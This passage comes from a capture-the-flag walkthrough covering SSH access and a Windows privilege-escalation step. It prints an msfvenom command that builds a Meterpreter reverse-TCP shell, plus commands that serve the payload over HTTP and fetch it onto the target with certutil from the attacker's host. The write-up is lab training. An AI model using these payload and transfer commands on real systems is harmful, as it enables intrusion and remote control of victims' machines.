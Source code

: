 Let's try SSH with user david.

<img alt="" class="bh ko mr c jop-noMdConv" width="700" height="591" loading="lazy" role="presentation" src="resources/1_xq4vdF4T__PzG69t8hOKhg.png" style="box-sizing: inherit; vertical-align: middle; background-color: #ffffff; width: 680px; max-width: 100%; height: auto;">

flag3: “Can you escalate privileges and read the flag in C://Windows//System32//config directory?”

Let's create msfvenom shell:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=1234 -f exe > shell.exe
```

So we're going to transfer our shell file with certutil and python3 http.server

```
<span style="color: rgb(0, 116, 0);">#on local</span>
python3 -m http.server 80
<span style="color: rgb(0, 116, 0);">#on target</span>
certutil.exe -urlcache -<span style="color: rgb(92, 38, 153);">split</span> -f http://<localmachine>/shell.exe shell.exe
```

after transferring our file to C:\\Temp\\ directory,
